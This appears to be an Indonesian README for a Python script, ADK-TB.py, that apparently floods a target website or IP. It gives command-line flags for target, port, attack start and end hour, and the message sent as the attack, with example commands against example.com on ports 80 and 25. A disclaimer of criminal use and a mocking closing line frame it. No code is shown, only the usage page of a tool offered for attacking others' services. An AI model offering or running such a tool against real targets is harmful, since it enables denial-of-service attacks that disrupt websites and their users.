 # Pesan

~ Kami Tidak Akan Bertanggung Jawab Ketika Tools Ini Di Gunakan Dengan Ke Keriminallan 

Cara pakai
Pakai:python3 ADK-TB.py -t (target) -p (port) -m (jam serangan dimulai) -s (jam serangan selesai) --message (pesan)
Fungsi:
--t = targer serangan website/ip
--p = port target website
--m = sesuaikan jam penyerangan nya
--s = waktu selesai penyerangan sesuikan jam direkomendasikan 1 jam
--message = Pesan yang akan dijadikan sebagai serangan default: random msg
=================================
contoh1 : ADK-TB.py -t https://example.com -p 80 -m 12 -s 13 --message Seraaangwebsiteetargettt
contoh2 : ADK-TB.py -t (example.com -p 25 -m 12 -s 13
Ngerti Kan. gak ngerti parah bener lu sama gw
